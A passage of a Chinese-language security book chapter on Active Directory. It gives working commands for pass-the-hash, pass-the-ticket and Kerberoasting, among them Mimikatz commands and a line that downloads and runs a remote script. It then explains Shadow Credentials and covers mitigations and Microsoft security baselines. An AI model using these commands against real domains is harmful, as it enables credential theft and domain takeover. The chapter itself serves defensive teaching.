接下来，打开 **mimikatz.log** 文件并搜索你感兴趣的哈希值。在我们的例子中，我们正在寻找 **PSSec** 域的域管理员密码：



图 6.10 – 提取域管理员的 NTLM 哈希

复制 NTLM 哈希并按照以下示例的方式使用它，加载一个已经加载域管理员凭证的 **cmd** 控制台：

```
> Sekurlsa::pth /user:administrator /domain:PSSec /ntlm:7dfa0531d73101ca080c7379a9bff1c7
```

会打开一个 **cmd** 控制台，其中已加载域管理员的凭证，可以用于远程系统认证：



图 6.11 – 执行 pass-the-hash 攻击

在此示例中，我们使用 **PSExec** 来认证到域控制器 **DC01**，其 IP 地址为 **172.29.0.10**。如果配置允许从这台特定的计算机连接，也可以使用 PowerShell 会话，在其中提供 IP 地址而非 DNS 名称。不过，**PSExec** 不依赖于 PowerShell 会话配置和其他限制，因此攻击者通常会使用它。

### Pass the ticket (PtT)

除了 LM 或 NTLM 哈希，票据还存储在 LSA 中以实现单点登录（SSO）。

你可以使用 Mimikatz 导出会话中所有可用的票据，方法如下：

```
kerberos::list /export
```

票据成功导出后，你可以在当前工作文件夹中找到所有导出的票据文件。要进行 PtT 攻击，你现在需要寻找一个最适合你目的的票据。在我们的案例中，我们要找一个由 **krbtgt** 为域管理员签发的票据；因此，我们选择包含 **administrator** 和 **krbtgt** 字样的文件名中的一个票据，如下图所示：


图 6.12 – 导出的域管理员票据

现在，我们可以通过以下命令将其中一个票据加载到我们的会话中：

```
> kerberos::ptt [0;2856bf]-2-0-40e10000-administrator@krbtgt-PSSEC.LOCAL.kirbi
> misc::cmd
```

**misc::cmd** 命令允许你打开一个 **cmd** 命令行，你可以在这里继续进行其他操作。

### Kerberoasting 攻击

**Kerberoasting** 是一种攻击方式，涉及利用 Kerberos 认证协议中的漏洞。在这种攻击中，攻击者可以从使用 Kerberos 认证的服务账户中提取密码哈希，并利用这些哈希尝试离线破解密码。一旦攻击者成功破解密码，他们可以使用该密码获得对其他系统和敏感数据的未授权访问。

为了执行 Kerberoasting 攻击，攻击者通常从识别使用 Kerberos 认证的服务账户开始。这些账户通常有与之关联的 SPN。Tim Medin 写了一个脚本，可以帮助你识别具有 SPN 的账户，你可以从 GitHub 下载并执行该脚本：

```
> Invoke-Expression (Invoke-WebRequest -UseBasicParsing "https://raw.githubusercontent.com/nidem/kerberoast/master/GetUserSPNs.ps1")
```

以下截图展示了我们如何运行该脚本并找到具有设置 SPN 的 **IIS-User** 账户：


图 6.13 – 使用 SPN 获取账户

攻击者随后从 Kerberos 认证服务请求服务账户的 TGT，如下所示：

```
> Add-Type -AssemblyName System.IdentityModel
> New-Object System.IdentityModel.Tokens.KerberosRequestorSecurityToken -ArgumentList IIS-User/server.PSSec.local:80
```

一旦攻击者获得了服务票据，他们可以使用 Mimikatz 或类似工具提取票据的加密哈希。使用 Mimikatz，你可以通过 **kerberos::list /****export** 命令提取票据。

所有可用的票据将被提取到你运行 **mimikatz.exe** 的文件夹中，并带有 **.kirbi** 文件扩展名。

在攻击者尝试从票据哈希中破解密码之前，需要先进行转换。**EmpireProject** 中的 **Invoke-Kerberoast.ps1** 脚本提供了一个非常方便的方法来实现这一点。该脚本可以从 [`github.com/EmpireProject/Empire/blob/master/data/module_source/credentials/Invoke-Kerberoast.ps1`](https://github.com/EmpireProject/Empire/blob/master/data/module_source/credentials/Invoke-Kerberoast.ps1) 下载。

使用以下命令将提取的票据转换为 **.****csv** 文件：

```
> Import-Module .\Invoke-Kerberoast.ps1
> Invoke-Kerberoast -Format Hashcat | Select-Object Hash | ConvertTo-Csv -NoTypeInformation | Out-File kerberoast-hashes.csv
```

攻击者随后可以使用离线密码破解工具，如**Hashcat**，结合密码列表来尝试破解哈希值并恢复密码。如果成功，攻击者就可以利用被破解的密码，未经授权地访问其他系统和敏感数据。

### 影子凭证攻击

影子凭证攻击是一种攻击技术，可能导致 AD 环境中域控制器的被攻破。它涉及创建一个“影子”域账户，该账户与特权用户账户具有相同的密码，可以用来冒充特权用户并执行敏感操作。

影子凭证攻击是一种复杂的技术，要求攻击者满足多个先决条件，以便在 AD 环境中破坏域控制器。首先，攻击只能在运行 Windows Server 2016 或更高版本的域控制器上执行。此外，域必须配置了 Active Directory 证书服务和证书颁发机构，以获得进行 PKINIT Kerberos 身份验证所需的证书。PKINIT 允许使用基于证书的身份验证，而非用户名和密码，这是攻击成功的关键。最后，攻击者必须拥有一个被委派的权限，能够写入目标对象的**msDS-KeyCredentialLink** 属性。该属性将 RSA 密钥对与计算机或用户对象关联，使得能够使用该密钥对进行身份验证，接收来自 KDC 的 Kerberos TGT。

要执行此攻击，必须将密钥凭证添加到目标用户或计算机对象的**msDS-KeyCredentialLink** 属性中。通过这些凭证，攻击者可以利用 PKINIT 进行 Kerberos 身份验证，作为目标账户获得 TGT，并通过预身份验证验证私钥匹配。

请注意，计算机对象能够修改其自身的**msDS-KeyCredentialLink** 属性，但只有在该属性不存在时，才能添加**KeyCredential**。然而，用户对象无法编辑其自身的**msDS-KeyCredentialLink** 属性。

**msDS-KeyCredentialLink** 属性提供的链接过程使用户能够通过 RSA 密钥对进行身份验证，接收来自 KDC 的 TGT，而无需提供用户名和密码。

这一技术对于特权提升（如密码重置）同样有效，但它是一种更为隐蔽的方法，组织更难以检测到。

欲了解更多关于影子凭证攻击的信息，请参考以下博客文章：[`posts.specterops.io/shadow-credentials-abusing-key-trust-account-mapping-for-takeover-8ee1a53566ab`](https://posts.specterops.io/shadow-credentials-abusing-key-trust-account-mapping-for-takeover-8ee1a53566ab)。

现在我们已经了解了各种 AD 攻击向量，你可能会问自己，怎样才能减少暴露风险。AD 非常庞大，但仍然有一些措施是你可以采取的。

# 缓解措施

一般建议是小心哪些帐户被允许登录到哪些机器，并保护你的特权帐户。为了缓解这类攻击，控制访问权限并保持良好的凭证管理是至关重要的。

枚举是获取有关环境更多信息的过程，因此完全缓解枚举是不可行的。但你可以通过使对手更难找到有价值的目标来增加难度。在攻击者利用已发现的漏洞之前，通过使用最小权限原则枚举你的 AD 权限并调整特权。同时，使用微软基准配置将你的配置与官方推荐进行比较。在下一节中，我们将详细了解微软基准配置。

遵循良好的安全实践非常重要，比如限制服务帐户的使用、实施强密码策略，并定期监控和审计身份验证日志中的可疑活动。此外，网络分段和访问控制可以通过将关键系统和数据与潜在攻击者隔离来帮助限制成功凭证窃取攻击的影响。

通过实施适当的审计，你可以获得更多有关你环境中发生的事情的洞察（详细信息请参见 *第四章*，*检测 - 审计与监控*）。

仅使用事件 ID 来构建适当的审计是困难的，并且无法帮助你检测所有攻击。例如，仅使用事件 ID，无法检测到传递哈希攻击：在事件日志中，这种攻击看起来就像是目标机器上的合法身份验证。

因此，许多供应商已经开始分析系统之间的流，以便为诸如传递哈希（PtH）或传递票证（PtT）等攻击提供有效的检测。例如，微软的解决方案是 Microsoft Defender for Identity，它专注于与身份相关的攻击，并且是 Microsoft 365 Defender 的一部分。

请参阅详细的传递哈希（PtH）白皮书，了解有关 PtH 攻击的更多信息以及如何缓解它：[`www.microsoft.com/en-us/download/details.aspx?id=36036`](https://www.microsoft.com/en-us/download/details.aspx?id=36036)。

如果**ntds.dit**文件被攻击者提取，唯一有用的方法是进行受控的泄露恢复，并且两次重置**krbtgt**帐户以及其他域/森林管理员帐户的密码。在此恢复过程中，请确保监视可疑活动，以确保**krbtgt**帐户（以及其他管理帐户）仍然仅在你的控制之下。

制定适合你环境的**特权访问策略**。这可能是一个复杂且具有挑战性的过程，直到有效实施，但它是保护网络的关键步骤。

请参考以下指南以启动您的特权访问策略：[`learn.microsoft.com/en-us/security/privileged-access-workstations/privileged-access-access-model`](https://learn.microsoft.com/en-us/security/privileged-access-workstations/privileged-access-access-model)。

此外，管理员在使用环境中的高权限账户时，应使用**特权访问工作站**（**PAWs**）。PAWs 是专门用于行政任务和管理高度特权账户的工作站。通过限制访问互联网、电子邮件和其他可能存在漏洞的应用程序，它们为特权活动提供了安全的环境。通过使用 PAW，管理员可以帮助减少特权账户被攻击者危害和横向移动的风险。

# 微软基线和安全合规工具包

为了帮助加强组织环境的安全性，微软发布了安全合规工具包。可以从[`www.microsoft.com/en-us/download/details.aspx?id=55319`](https://www.microsoft.com/en-us/download/details.aspx?id=55319)下载安全合规工具包。

该工具包包含以下内容：

+   **策略分析器**：一个用于评估和比较组策略的工具。

+   **LGPO.exe**：一个用于分析本地策略的工具。

+   **SetObjectSecurity.exe**：用于配置几乎所有 Windows 安全对象的安全描述符的工具。

+   **每个最新操作系统的基线**：这些基线包含监控以及配置建议。

如果打开各个基线的相应**GP 报告**文件夹，您可以找到所有安全基线 GPO 的概览：



图 6.14 – 单一基线的所有 GPO 概览

所有安全基线都是为了不同的配置目的而创建的。每个基线中最重要的一些重复配置目的如下：

+   **域控制器**：这是针对域控制器以及用于管理域控制器和其他 Tier 0 资产的 PAWs 的硬化建议。

+   **域安全**：该基线包含如何配置一般域设置（如密码策略或账户登录超时和锁定）的最佳实践。

+   **成员服务器**：这是针对成员服务器以及用于管理成员服务器和其他 Tier 1 资产的 PAWs 的硬化建议。

+   **计算机**：这是针对所有客户端设备以及 Tier 2 中的终端服务器的硬化建议。

+   **用户**：这是针对 Tier 2 用户的用户级别硬化建议。

还有其他基线，例如如何配置 BitLocker、凭证保护（Credential Guard）和 Defender Antivirus 的建议，以及如何配置启用了基于虚拟化的安全性的域控制器的建议。

根据你的使用案例选择适合每个操作系统的基线。

你知道吗？

GPO 基线和 Intune 基线由同一团队创建，并且它们是相同的。

# 总结

在本章中，你学习了一些 AD 安全的基础知识。由于 AD 是一个庞大的主题，足以填满一本书，我们集中讨论了从凭证窃取和访问权限角度的 AD 安全。

你已经学会了如何实现一些基本的审计检查，并且知道哪些开源工具可以帮助你枚举 AD。

现在你已经了解了哪些帐户和组在 AD 中具有特权，并且在委派访问权限时要非常小心。仅仅部署默认配置的 AD 是不够的；你还需要加强其安全性。

最后，我们深入探讨了 AD 中使用的身份验证协议，并探索了它们如何被滥用。

我们还讨论了*一些*缓解措施，但请确保同时参考**第十三章**中的建议，*“其他措施 – 进一步的缓解和资源”*。

但当我们谈论 AD 时，AAD（或者未来可能称为：**Entra ID**）是无法忽视的。虽然这两个服务都是非常优秀的身份提供者，但理解它们之间的差异非常重要，这也是我们将在下一章讨论的内容。

有一点我可以提前告诉你：不，Azure Active Directory 并不是“只是云中的 Active Directory”。

# 进一步阅读

如果你想更深入地了解本章提到的某些主题，请查看以下资源：

**访问权限**：

+   Get-Acl: [`docs.microsoft.com/en-us/powershell/module/microsoft.powershell.security/get-acl`](https://docs.microsoft.com/en-us/powershell/module/microsoft.powershell.security/get-acl)

+   Set-Acl: [`docs.microsoft.com/en-us/powershell/module/microsoft.powershell.security/set-acl`](https://docs.microsoft.com/en-us/powershell/module/microsoft.powershell.security/set-acl)

+   DS-Replication-Get-Changes-All 扩展权限: [`learn.microsoft.com/en-us/windows/win32/adschema/r-ds-replication-get-changes-all`](https://learn.microsoft.com/en-us/windows/win32/adschema/r-ds-replication-get-changes-all)

**与 Active Directory 相关的 PowerShell 模块（属于** **RSAT 工具）**：

+   ActiveDirectory 模块: [`docs.microsoft.com/en-us/powershell/module/activedirectory`](https://docs.microsoft.com/en-us/powershell/module/activedirectory)

+   GroupPolicy 模块: [`docs.microsoft.com/en-us/powershell/module/grouppolicy/`](https://docs.microsoft.com/en-us/powershell/module/grouppolicy/)

**与 Active Directory 相关的开源** **攻击者工具**：

+   域密码喷洒攻击: [`github.com/dafthack/domainPasswordSpray`](https://github.com/dafthack/domainPasswordSpray)

+   PowerSploit: [`github.com/PowerShellMafia/PowerSploit`](https://github.com/PowerShellMafia/PowerSploit)

+   PowerView: [`github.com/PowerShellMafia/PowerSploit/tree/master/Recon`](https://github.com/PowerShellMafia/PowerSploit/tree/master/Recon)

+   Mimikatz: [`github.com/gentilkiwi/mimikatz/wiki`](https://github.com/gentilkiwi/mimikatz/wiki)

+   Kerberoast 工具：[`github.com/nidem/kerberoast`](https://github.com/nidem/kerberoast)

**身份验证：**

+   停止使用 LAN Manager 和 NTLMv1!：[`miriamxyra.com/2017/11/08/stop-using-lan-manager-and-ntlmv1/`](https://miriamxyra.com/2017/11/08/stop-using-lan-manager-and-ntlmv1/)

+   在 PowerShell 远程执行中进行第二跳：[`docs.microsoft.com/en-us/powershell/scripting/learn/remoting/ps-remoting-second-hop`](https://docs.microsoft.com/en-us/powershell/scripting/learn/remoting/ps-remoting-second-hop)

**期望** **状态配置**：

+   Windows PowerShell 期望状态配置概述：[`learn.microsoft.com/en-us/powershell/dsc/overview/decisionmaker?view=dsc-1.1`](https://learn.microsoft.com/en-us/powershell/dsc/overview/decisionmaker?view=dsc-1.1)

+   开始使用 Azure 自动化状态配置：[`docs.microsoft.com/en-us/azure/automation/automation-dsc-getting-started`](https://docs.microsoft.com/en-us/azure/automation/automation-dsc-getting-started)

+   快速入门：将组策略转换为 DSC：[`docs.microsoft.com/en-us/powershell/scripting/dsc/quickstarts/gpo-quickstart`](https://docs.microsoft.com/en-us/powershell/scripting/dsc/quickstarts/gpo-quickstart)

**枚举**：

+   使用 Active Directory PowerShell 模块收集 AD 数据：[`adsecurity.org/?p=3719`](https://adsecurity.org/?p=3719)

**林信任**：

+   如何在 Azure Active Directory 域服务中为资源森林工作设置信任关系：[`learn.microsoft.com/en-us/azure/active-directory-domain-services/concepts-forest-trust`](https://learn.microsoft.com/en-us/azure/active-directory-domain-services/concepts-forest-trust)

**将数据导入 Excel** **和 PowerPivot**：

+   导入或导出文本（**.txt** 或 **.csv**）文件：[`support.microsoft.com/en-us/office/import-or-export-text-txt-or-csv-files-5250ac4c-663c-47ce-937b-339e391393ba`](https://support.microsoft.com/en-us/office/import-or-export-text-txt-or-csv-files-5250ac4c-663c-47ce-937b-339e391393ba)

+   教程：将数据导入 Excel，并创建数据模型：[`support.microsoft.com/en-us/office/tutorial-import-data-into-excel-and-create-a-data-model-4b4e5ab4-60ee-465e-8195-09ebba060bf0`](https://support.microsoft.com/en-us/office/tutorial-import-data-into-excel-and-create-a-data-model-4b4e5ab4-60ee-465e-8195-09ebba060bf0)

+   创建数据透视表以分析工作表数据：[`support.microsoft.com/en-gb/office/create-a-pivottable-to-analyze-worksheet-data-a9a84538-bfe9-40a9-a8e9-f99134456576`](https://support.microsoft.com/en-gb/office/create-a-pivottable-to-analyze-worksheet-data-a9a84538-bfe9-40a9-a8e9-f99134456576)

**缓解措施**：

+   Microsoft 安全合规工具包 1.0：[`www.microsoft.com/en-us/download/details.aspx?id=55319`](https://www.microsoft.com/en-us/download/details.aspx?id=55319)

**特权账户** **和组**：

+   附录 B：Active Directory 中的特权帐户和组：[`learn.microsoft.com/en-us/windows-server/identity/ad-ds/plan/security-best-practices/appendix-b--privileged-accounts-and-groups-in-active-directory`](https://learn.microsoft.com/en-us/windows-server/identity/ad-ds/plan/security-best-practices/appendix-b--privileged-accounts-and-groups-in-active-directory)

**安全标识符**：

+   Windows 操作系统中的知名安全标识符：[`learn.microsoft.com/en-us/windows-server/identity/ad-ds/manage/understand-security-identifiers`](https://learn.microsoft.com/en-us/windows-server/identity/ad-ds/manage/understand-security-identifiers)

+   知名 SID: [`docs.microsoft.com/en-us/windows/win32/secauthz/well-known-sids`](https://docs.microsoft.com/en-us/windows/win32/secauthz/well-known-sids)

**用户** **权限分配**：

+   用户权限分配：[`learn.microsoft.com/en-us/windows/security/threat-protection/security-policy-settings/user-rights-assignment`](https://learn.microsoft.com/en-us/windows/security/threat-protection/security-policy-settings/user-rights-assignment)

+   Secedit: [`docs.microsoft.com/en-us/previous-versions/windows/it-pro/windows-xp/bb490997(v=technet.10)`](https://docs.microsoft.com/en-us/previous-versions/windows/it-pro/windows-xp/bb490997(v=technet.10)

)

**xkcd** **密码强度**：

+   密码强度：[`xkcd.com/936/`](https://xkcd.com/936/)

你还可以在 GitHub 仓库中找到本章提到的所有链接，链接在*第六章*中，无需手动输入每个链接：[`github.com/PacktPublishing/PowerShell-Automation-and-Scripting-for-Cybersecurity/blob/master/Chapter06/Links.md`](https://github.com/PacktPublishing/PowerShell-Automation-and-Scripting-for-Cybersecurity/blob/master/Chapter06/Links.md)。
